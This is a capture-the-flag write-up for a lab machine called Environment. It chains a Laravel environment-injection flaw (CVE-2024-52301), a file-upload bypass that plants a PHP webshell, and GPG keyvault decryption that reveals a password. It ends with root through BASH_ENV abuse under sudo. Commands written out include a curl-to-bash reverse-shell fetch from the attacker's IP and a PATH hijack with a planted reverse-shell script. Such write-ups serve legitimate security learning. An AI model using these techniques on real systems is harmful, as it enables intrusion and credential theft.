

Environment
Environment was a medium-difficulty Linux box that began with an environment variable injection vulnerability (CVE-2024-52301) in a Laravel PHP web application. By injecting an --env=preprod argument into a POST request to the login form, authentication was bypassed, granting access to a user dashboard. From there, a restrictive file upload filter was circumvented by combining a GIF89A magic byte header with a trailing-dot filename (shell.php.), allowing the upload of a PHP webshell and achieving initial remote code execution as the www-data user.
Post-exploitation enumeration revealed a GPG-encrypted keyvault in another user's home directory. By copying the user's .gnupg directory and leveraging the GNUPGHOME environment variable, the vault was decrypted to expose plaintext SSH credentials for the user hish, enabling lateral movement.
Privilege escalation to root was then achieved by exploiting a custom system information script. The env-keep+=BASH ENV directive was abused by setting the BASH_ENV variable to a file containing a reverse shell payload. When the privileged script was executed, its bash interpreter sourced the malicious file before running its own code, granting a shell as the root user and completing the exploitation chain.
User flag
Initial nmap scan reveals just 2 open ports. SSH and a website.
I will start off by taking a look at the website.
Website enumeration
There was nothing interesting on the main site, so I'll run ffuf to search for endpoints.
ffuf -u http://environment.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -fs 153
Up and login endpoints return a positive status code. I'll check both of them before moving to the others.
Up is just a website status endpoint. But it also reveals that the website is using Laravel as its framework, and at the same time, that the website is PHP-based.
Login contains a login form, which won't be too useful without valid credentials.
Since I know that the website uses Laravel, I'll try to crash it. This way I might be able to get valuable information like the framework's version, code snippets, depending on how Laravel is configured.
Crashing the login form
One way of intentionally crashing the website is to input malformed data in forms. For example, since there is a remember me box, if I capture the request with burpsuite and change the value from True/False to anything else, the website will crash.

This worked as intended. The crash page reveals a bunch of useful things, starting with both the PHP version 8.2.28 and the Laravel version 11.30.0
The code snippet itself contains a very interesting comment as well.
if(App::environment() == "preprod") { //QOL: login directly as me in dev/local/preprod envs
$request->session()->regenerate();
$request->session()->put('user_id', 1);
return redirect('/management/dashboard');
}
If I'm somehow able to set the website's environment to preprod, I will be able to pass the authentication process without knowing any credentials.
This might become useful later. Since I have the Laravel version, I'll search the web for any CVEs that I could use.
The search has led me to CVE-2024-52301.
https://nvd.nist.gov/vuln/detail/CVE-2024-52301
https://github.com/Nyamort/CVE-2024-52301
I can change the website's environment with a single argument appended to my URL. I'll test this out on the main page.
http://environment.htb/?--env=test
The value changed from production to test, confirming the vulnerability.
Changing the environment to log in as the dev
Back on the login page, I will enter random credentials, and I'll capture the request with burpsuite.
After sending the request, I was redirected to the management dashboard.
Getting a shell on the box
The only thing I can really do through the dashboard is change my user's profile picture.
Since this is a PHP website, I will try uploading a simple PHP webshell.
As expected, this will fail. Most likely, the website will accept only image files. To test this, I will try uploading a random .png image next.
And this worked. The challenge here will be fooling the filter so that I can upload my malicious webshell.
I tried changing the content type to image/png, as well as the file extension, without much success.
After that, I'll try tricking the filter by using a fake file header in my file contents. One that I know often works is the GIF header(GIF89A). I'll put it right below the content type header.
However, this still returns an invalid filetype error. I'll try combining this with a changed extension, as the filter might be blocking the plain .php extension.
After testing multiple extensions, adding a . at the end of the filename shell.php. worked, bypassing the filter and allowing me to upload the webshell.
Afterwards, I am redirected to the file. The GIF header will be treated as harmless text by the PHP engine and will be displayed on the site, while it'll process the malicious code inside my file as normal.
http://environment.htb/storage/files/shelly.php?0=whoami
I tested whether the box could reach me to make sure that there won't be any blockades.
http://environment.htb/storage/files/shelly.php?0=ping+-c+1+10.10.16.8
The ping successfully reached my box. I can now proceed with getting a shell on the machine.
http://environment.htb/storage/files/shelly.php?0=curl+http://10.10.16.8:8000/shell.sh|bash
I started both a python server and an nc listener. As soon as I sent the URL, there was a hit on my server, and a while later, on my listener.
Owning the Hish user
Surprisingly, I can look into Hish's folder as the www-data user.
In the backup folder, there is a GPG keyvault.
Decrypting the GPG keyvault
I cannot do anything with it, unless I get my hands on Hish's .gnupg directory. Since I can view the directory, I'll try to copy it whole into /tmp/hishhome
cp -r hish /tmp/hishhome
This worked. Now I have a perfect copy of Hish's .gnupg directory, which will allow me to decrypt the keyvault.
By specifying the copied .gnupg directory as the GNUPGHOME environmental variable, I'll be able to use the secret keys stored within and decrypt Hish's encrypted files, like the keyvault.
GNUPGHOME=/tmp/hishhome/.gnupg gpg --decrypt backup/keyvault.gpg
There are 3 passwords inside, and it looks like one of them is for the box itself.
Hish | marineSPm@ster!!
I'll try to SSH as Hish with these credentials.
Root flag
User Hish can run a custom systeminfo script. Aside from that, there is one more interesting thing that I'll come back to later.
Trying to exploit the systeminfo script with PATH injection
# systeminfo
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10
echo -e "\n### Checking system-wide open ports ###"
ss -antlp
echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t
echo -e "\n### Checking system resource limits ###"
ulimit -a
echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10
echo -e "\n### Checking disk usage for all filesystems ###"
df -h
It's a simple system information script that displays results from 6 different commands. I can see that the script is not using full paths to the binaries, which I could abuse by modifying the PATH variable.
Currently, the PATH variable is set to /usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games. This means that the script will first look into /usr/local/bin for these binaries, then into /usr/bin, and so on.
Obviously, I cannot write into /usr/bin as Hish, but I can modify the PATH variable to make the script look into user-controlled directories for these files before the regular ones. Then I could plant a malicious script/bin in that folder, and the script will navigate to that one instead.
export PATH=/tmp:$PATH
I created a script named df in the /tmp directory, containing a bash reverse shell. In theory, this should now give me a shell each time I run the systemingo script. I used chmod to make the df script executable, and ran the script.
It hung up after trying to use df.
And returned a shell as Hish, which confirms that this works for Hish.
This won't work for root, however, and it's because root has its own PATH variable, which cannot be changed. It looks for binaries in a special /usr/sbin directory, which contains the necessary tools and more that regular users should not have access to.
It can actually be seen in the sudo -l output. The secure_path variable is what root uses instead of the normal PATH variable.
Abusing the BASH_ENV env variable for root shell
There was one more thing that the sudo -l command revealed, which will most likely lead to root code execution.
Normally, all of the environmental variables are reset when sudo is used. Here, the BASH_ENV variable will be kept and passed along.
This means that I can change the environment in which bash will operate, and in short, make it execute commands by specifying my df file as the BASH_ENV variable.
BASH_ENV=df sudo /usr/bin/systeminfo
The script hung up without even running, and on my listener, a root shell was caught.
Rooted!